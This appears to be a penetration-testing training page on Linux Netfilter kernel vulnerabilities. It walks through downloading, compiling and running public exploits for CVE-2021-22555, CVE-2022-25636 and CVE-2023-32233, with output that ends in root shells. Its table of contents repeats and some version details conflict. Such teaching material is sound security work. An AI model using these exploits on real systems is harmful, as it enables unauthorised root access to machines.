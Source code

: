 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
      - [CVE-2021-22555](#CVE-2021-22555)
      - [CVE-2022-25636](#CVE-2022-25636)
- [id](#id)
      - [CVE-2023-32233](#CVE-2023-32233)
      - [Proof-Of-Concept](#Proof-Of-Concept)
      - [Exploitation](#Exploitation)
- [id](#id)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
      - [CVE-2021-22555](#CVE-2021-22555)
      - [CVE-2022-25636](#CVE-2022-25636)
- [id](#id)
      - [CVE-2023-32233](#CVE-2023-32233)
      - [Proof-Of-Concept](#Proof-Of-Concept)
      - [Exploitation](#Exploitation)
- [id](#id)

## Table of Contents

- [CVE-2021-22555](#CVE-2021-22555)
      - [CVE-2022-25636](#CVE-2022-25636)
- [id](#id)
      - [CVE-2023-32233](#CVE-2023-32233)
      - [Proof-Of-Concept](#Proof-Of-Concept)
      - [Exploitation](#Exploitation)
- [id](#id)

``# Netfilter
`Netfilter` is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. `Netfilter` is also called the software layer in the Linux kernel. When network packets are received and sent, it initiates the execution of other modules such as packet filters. These modules can then intercept and manipulate packets. This includes the programs like `iptables` and `arptables`, which serve as action mechanisms of the `Netfilter` hook system of the IPv4 and IPv6 protocol stack.

This kernel module has three main functions:

1. Packet defragmentation
2. Connection tracking
3. Network address translation (NAT)

When the module is activated, all IP packets are checked by the `Netfilter` before they are forwarded to the target application of the own or remote system. In 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), and also in 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), several vulnerabilities were found that could lead to privilege escalation.


Many companies have preconfigured Linux Distributions adapted to their software applications or vice versa. This gives the developers and administrators, metaphorically speaking, a "dynamic basis" that is difficult to replace. This would require either adapting the system to the software application or adapting the application to the newer system. Depending on the size and complexity of the application, this can take a great deal of time and effort. This is often why so many companies run older and not updated Linux distributions in production.

Even if the company uses virtual machines or containers like Docker, these are built on a specific kernel. The idea of isolating the software application from the existing host system is a good step, but there are many ways to break out of such a container.

#### CVE-2021-22555

Vulnerable kernel versions: 2.6 - 5.11

```shell
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

```shell
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
```

#### CVE-2022-25636

A recent vulnerability is [CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/) and affects Linux kernel 5.4 through 5.6.10. This is `net/netfilter/nf_dup_netdev.c`, which can grant root privileges to local users due to heap out-of-bounds write. `Nick Gregory` wrote a very detailed [article](https://nickgregory.me/post/2022/03/12/cve-2022-25636/) about how he discovered this vulnerability.

```shell
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```
However, we need to be careful with this exploit as it can corrupt the kernel, and a reboot will be required to reaccess the server.

```shell
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

#### CVE-2023-32233

This vulnerability exploits the so called `anonymous sets` in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`. These `nf_tables` are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (`Use-After-Free`) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.


The exploitation is done by manipulating the system to use the `cleared out` anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain `root` privileges.

#### Proof-Of-Concept

```shell
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

```shell-session
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

#### Exploitation

```shell
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```


